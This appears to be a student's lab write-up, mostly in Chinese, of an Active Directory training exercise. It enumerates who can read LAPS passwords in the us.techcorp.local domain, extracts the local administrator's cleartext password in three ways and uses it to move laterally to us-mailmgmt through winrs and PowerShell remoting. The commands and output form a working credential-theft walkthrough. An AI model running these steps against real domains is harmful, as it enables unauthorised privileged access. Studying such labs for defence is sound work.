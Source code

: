 Task
•  Identify OUs where LAPS is in use and user(s) who have permission to read passwords.
•  Abuse the permissions to get the clear text password(s).


# Identify OUs where LAPS is in use and user(s) who have permission to read passwords.

引入 ActiveDirectory module
```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

引入AdmPwd
```
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```


查看对哪台机器有LAPS
```
PS C:\ad\Tools>  C:\AD\Tools\Get-LapsPermissions.ps1

Read Rights

organizationalUnit                     IdentityReference
------------------                     -----------------
OU=MailMgmt,DC=us,DC=techcorp,DC=local US\studentusers

Write Rights

OU=MailMgmt,DC=us,DC=techcorp,DC=local NT AUTHORITY\SELF
```

也可以使用powerview
```
PS C:\ad\Tools> Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}


AceQualifier           : AccessAllowed
ObjectDN               : OU=MailMgmt,DC=us,DC=techcorp,DC=local
ActiveDirectoryRights  : ReadProperty, ExtendedRight
ObjectAceType          : ms-Mcs-AdmPwd
ObjectSID              :
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-210670787-2521448726-163245708-1116
AccessMask             : 272
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit, InheritOnly
InheritedObjectAceType : Computer
OpaqueLength           : 0
IdentityName           : US\studentusers
```


枚举结果表明 studentusers这个组可以对 us-MailMgmt有LAPS权限，可以读取这台机器的密码



# Abuse the permissions to get the clear text password(s).


1. 使用ActiveDirectory module读取密码
```
PS C:\ad\Tools> Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
/c}Jgsb!4t33.2
```

2. 使用LAPS module
```
PS C:\ad\Tools> Get-AdmPwdPassword -ComputerName us-mailmgmt

ComputerName         DistinguishedName                             Password           ExpirationTimestamp
------------         -----------------                             --------           -------------------
US-MAILMGMT          CN=US-MAILMGMT,OU=MailMgmt,DC=us,DC=techco... /c}Jgsb!4t33.2     11/30/2022 1:08:5...
```

3. 使用pv
```
PS C:\ad\Tools> Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd
/c}Jgsb!4t33.2
```

密码是：```/c}Jgsb!4t33.2```



## 利用密码横向到us-mailmgmt

1. winrs

cmd下
```
C:\Users\studentuser138>winrs -r:us-mailmgmt -u:.\administrator -p:/c}Jgsb!4t33.2 cmd
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>whoami
whoami
us-mailmgmt\administrator

C:\Users\Administrator>hostname
hostname
US-MailMgmt
```

2. powershell

使用明文密码建一个session
```
PS C:\ad\Tools> $passwd = ConvertTo-SecureString '/c}Jgsb!4t33.2' -AsPlainText -Force
PS C:\ad\Tools> $creds = New-Object System.Management.Automation.PSCredential ("us-mailmgmt\administrator", $passwd)
PS C:\ad\Tools> $mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
PS C:\ad\Tools> $mailmgmt

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          us-mailmgmt     RemoteMachine   Opened        Microsoft.PowerShell     Available
```

横向到us-mailmgmt
```
PS C:\ad\Tools> Enter-PSSession $mailmgmt
[us-mailmgmt]: PS C:\Users\Administrator\Documents> whoami
us-mailmgmt\administrator
[us-mailmgmt]: PS C:\Users\Administrator\Documents> hostname
US-MailMgmt
```